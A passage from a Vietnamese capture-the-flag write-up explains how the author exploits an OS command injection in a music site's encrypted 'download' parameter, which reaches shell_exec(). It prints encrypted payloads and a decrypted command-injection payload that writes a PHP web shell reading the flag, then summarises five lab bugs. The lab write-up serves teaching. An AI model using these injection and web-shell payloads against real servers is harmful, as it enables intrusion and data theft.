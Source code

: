 Mà param `download` ta có thể kiểm soát được và kết hợp với việc biết cách hoạt động hai hàm `decrypt()`, `encrypt()` thì ta có thể kiểm soát câu lệnh được thực thi trong hàm `shell_exec()`.

![image](https://hackmd.io/_uploads/H1Y_qBvQ0.png)

Khi ấn vào icon download thì 1 HTTP Request với GET Method được gửi kèm theo một param là `download`. Mình sẽ thử decrypt chuỗi trong param `download` này bằng cách sử dụng đoạn code `download-music.php`.

![image](https://hackmd.io/_uploads/HkMuoSvXC.png)

Chuỗi được gửi đi trong param `download` chính là chuỗi `audio/an_than_low_g_thang.mp3` đã được encrypt.
=> Câu lệnh hàm `shell_exec()` thực thi sẽ là `cp audio/an_than_low_g_thang.mp3`. Vậy mình sẽ thử tạo ra 1 file `info.php` trên hệ thống.

Payload: `Q0hIe2wwX0gwbjZfWFhFX240eV9OMF80b190SDRUX2Sq0MtNgBUzcJraFQNYR5Ehn4fAwicLbfGTDjhJBbFaUNaXxncRoinyQeVgkZEBhJQ=`.

![image](https://hackmd.io/_uploads/HkURl8wXC.png)

![image](https://hackmd.io/_uploads/S1KgbLDXR.png)

Vậy là mình có thể tạo ra 1 file `info.php` ngay trên server. Giờ đến bước khai thác để lấy flag cuối thôi!!!

### Exploit:

Mình sẽ tạo 1 con web shell lên trên server.

Bạn cũng có thể đọc luôn flag mà không cần tạo web shell.

- **Payload encrypt:** `Q0hIe2wwX0gwbjZfWFhFX240eV9OMF80b190SDRUX2TaOtdY26ZcIVgoAnErkSZttwWonTnUFJkLPzwqvD8UKeuFkNkgshhtJ4BdG0oNoyUgAuf2nrXs67V36JOi9Cpb`.
- **Payload decrypt:** `$(echo \"<?php system('cat /flag*.txt');?>\" > /www/flag.php)`.

Payload: `Q0hIe2wwX0gwbjZfWFhFX240eV9OMF80b190SDRUX2Sy43Tl6Dtd6Gn9vsehQUrhQUVuNSRLQWkRJWJ/76E72TH/afrNdBaXtmSviuLh3vEw/GUA023d80GpwspdBnAO`.

![image](https://hackmd.io/_uploads/SJqwMUwmC.png)

![image](https://hackmd.io/_uploads/rkq9z8P7A.png)

![image](https://hackmd.io/_uploads/HyLnMLvX0.png)

<div class="alert alert-success">
    <strong>🚩FLAG 5:</strong> CHH{o5_C0mM4nD_iNj3cTi0n_c4n_aR1s3_4nYwH3re_df59576e47e3385c7e8f604123eeffb3}
</div>

## TỔNG KẾT:

1. **FLAG 1:** Lỗ hổng SQL Injection ở tham số `id` (Endpoint: /lyric.php).
2. **FLAG 2:** Lỗ hổng IDOR ở tham số `id` (Endpoint: /lyric.php).
3. **FLAG 3:** Lỗ hổng XSS ở chức năng "Create playlist" (Endpoint: /pages/create-playlist.php).
4. **FLAG 4:** Lỗ hổng XXE ở chức năng "Add lyric" (Chỉ có ở account của admin).
5. **FLAG 5:** Lỗ hổng OS Command Injection ở tham số `download`.

Cảm ơn các bạn vì đã đọc đến đây! Nếu có sai sót gì trong quá trình giải challenge mong các bạn góp ý với mình ở phần comment!
